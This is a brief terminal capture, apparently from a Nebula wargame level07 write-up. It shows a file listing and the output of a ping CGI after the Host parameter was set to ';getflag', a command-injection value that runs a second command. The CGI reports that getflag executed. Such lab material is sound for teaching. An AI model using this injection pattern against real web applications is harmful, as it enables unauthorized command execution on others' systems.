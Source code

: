```terminal
-rw-r--r-- 1 level07 level07 3353 May 18  2011 .bashrc
drwx------ 2 level07 level07   60 Oct 24 07:38 .cache
-rw------- 1 level07 level07   41 Aug 18  2012 .lesshst
-rw-r--r-- 1 level07 level07  675 May 18  2011 .profile
-rw------- 1 level07 level07  711 Aug 18  2012 .viminfo
-rw-rw-r-- 1 level07 level07   77 Aug 18  2012 index.cgi
-rw-rw-r-- 1 level07 level07  136 Oct 24 07:40 index.cgi?Host=;getflag
level07@nebula:~$ cat index.cgi\?Host\=\;getflag
<html><head><title>Ping results</title></head><body><pre>You have successfully executed getflag on a target account
</pre></body></html>
level07@nebula:~$
```